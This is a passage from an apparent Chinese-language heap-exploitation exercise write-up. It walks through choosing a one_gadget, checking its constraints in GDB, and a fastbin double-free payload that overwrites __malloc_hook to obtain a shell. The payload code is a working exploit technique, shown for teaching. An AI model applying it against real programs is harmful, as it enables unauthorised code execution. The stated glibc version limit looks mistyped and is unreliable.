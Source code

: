 ![](https://static.hack1s.fun/images/2021/03/09/image-20210309153759265.png)

最大 120，着肯定没法直接传入一个地址

这里的解决方法是不使用 system 函数的地址，改用 one_gadget

![](https://static.hack1s.fun/images/2021/03/09/image-20210309155239795.png)

用 one_gadget 查找这个 libc 中可能调用的 bin/sh

之后把这个地址和 libc 的起始地址相加之后写到原本 system 那个地方

下面需要检查一下这里面哪一个 gadget 的约束条件是满足的

在 GDB 里面用`b *__malloc_hook`下断点，之后继续运行

在终端里面用选项 1 触发 malloc，查看这时的寄存器状态

![](https://static.hack1s.fun/images/2021/03/09/image-20210309155832740.png)

R12、R13 都不是 NULL，并且 rsi、[rsi] 也都不是 NULL、[rax]、[[rax]] 也不是

那只能确认一下`[rsp+0x50]`这里了

![](https://static.hack1s.fun/images/2021/03/09/image-20210309160124592.png)

检查一下栈发现这里是满足的，所以可以用这个 gadget

最终我们的 payload 如下

```
a=malloc(0x68)
b=malloc(0x68)

free(a)
free(b)
free(a)

malloc(0x68,p64(libc.sym['__malloc_hook']-(0x50-0x2d)))
malloc(0x68)
malloc(0x68)
malloc(0x68,b'B'*(0x50-0x3d)+p64(libc.address+0xe1fa1))

malloc(1,'')

```

运行一下就成功获得了 shell 权限

![](https://static.hack1s.fun/images/2021/03/09/image-20210309160307408.png)

FastBin_dup 只可以用于 glibc_2.3.1 及以下的版本

并且需要攻击者知道要修改的地址，以及能够找到绕过 chunk size 检查的 fake chunk

  

![](https://static.52pojie.cn/static/image/filetype/zip.gif)
